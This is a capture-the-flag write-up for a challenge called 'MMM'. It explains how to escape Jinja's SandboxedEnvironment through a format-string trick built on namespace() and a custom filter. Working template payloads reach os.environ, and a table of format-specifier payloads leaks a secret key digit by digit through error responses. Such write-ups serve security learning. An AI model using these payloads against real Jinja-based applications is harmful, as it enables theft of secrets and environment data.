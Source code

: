 # MMM

### TL;DR

This challenge is about bypassing the Jinja `SandboxedEnvironment` templating engine. The idea is to trick Jinja into evaluating an arbitrary format string, from which we can leak the secret key via `os.environ` by side-channel.

### Format string vulnerability

By default, the `SandboxedEnvironment` blocks all calls to `.format` and `.format_map` originating from an object of type `str`. However, this check **does not** get applied when a Jinja filter is called. Therefore, we can theoretically craft an exploit by calling a filter with `'{...}'.format` as an argument such that that argument is used as a function. By sheer coincidence, none of Jinja's built-in filters are exploitable in this way (to my knowledge). However, let's take a look at the `median` function in `server.py`:

```py
def median(lst, high=True):
    lst.sort(key=lambda x: x if high else -x)
    return lst[len(lst)//2]
```

Since `lst` is unsanitized, we would like to pass a value such that `lst.sort` magically becomes `'{...}'.format`. There is no easy way to do this normally, so we have to make use of the `namespace()` feature, which allows keyword arguments to become class attributes for that object (e.g. `namespace(key=1).key` returns `1`). The following payload triggers a format string vulnerability:

```py
{{ namespace(sort='...'.format)|median }}
```

Now we can use classic pyjail tricks to obtain a reference to `os.environ`:

```py
{{ namespace(sort='key.__globals__[__builtins__].quit.__init__.__globals__[sys].modules[os].environ[KEY]'.format)|median }}
```

This alone, however, is not enough to leak the key because the format string is never actually *returned* by `median`. This leads to the next step of trying to side-channel the key.

### Side channel

Notice that a request to `/run` will return an error message if an `Exception` occurs while evaluating the template, followed by the type of error. We can use this to our advantage to leak the key. We can make use of the fact that format strings are nestable. For example, if the format string is `{x:{y[0]}}` and `y = 'abc'`, then it will expand to `{x:a}`. The `a` is now treated as the **format specifier**, which may lead to different behavior depending on what the specifier is and `x`'s type. We can abuse this in the case of our secret key. Let `{X}` be the `{key.__globals__[__builtins__].quit.__init__.__globals__[sys].modules[os].environ[KEY][i]}` (a.k.a. some character in the key). We know that `X` must be a hex digit. To leak each digit, we can execute the following payloads:

Payload | No Error | Error
--- | --- | ---
`{key.__code__.co_argcount:.{X}0000000000g}` | `0` | `123456789abcdef`
`{key.__code__.co_argcount:.2{X}47483647g}` | `01` | `23456789abcdef`
`{key.__code__.co_argcount:.{X}147483647g}` | `012` | `3456789abcdef`
`{key.__code__.co_argcount:.214748{X}647g}` | `0123` | `456789abcdef`
`{key.__code__.co_argcount:.21{X}7483647g}` | `01234` | `56789abcdef`
`{key.__code__.co_argcount:.2147483{X}48g}` | `012345` | `6789abcdef`
`{key.__code__.co_argcount:.2147483{X}47g}` | `0123456` | `789abcdef`
`{key.__code__.co_argcount:.214{X}483647g}` | `01234567` | `89abcdef`
`{key.__code__.co_argcount:.21474{X}3647g}` | `012345678` | `9abcdef`
`{key.__name__:{X}}` | `123456789` | `0abcdef`
`{key.__globals__[__builtins__].quit.__init__.__globals__[sys].modules[_thread].TIMEOUT_MAX:{X}}` | `0123456789ef` | `abcd`
`{key.__code__.co_argcount:{X}}` | `0123456789bcdef` | `a`
`{key.__code__.co_argcount:#{X}}` | `0123456789bdef` | `ac`
`{key.__code__.co_argcount:^{X}}` | `def` | `0123456789abc`

This is enough to distinguish all hex digits except for `e` and `f`. Since the 64 bytes long, there should be 8 of these occurrences. We can submit all 256 combinations to `/flag` until one works.

The solve script is given in [solve.py](solve.py).
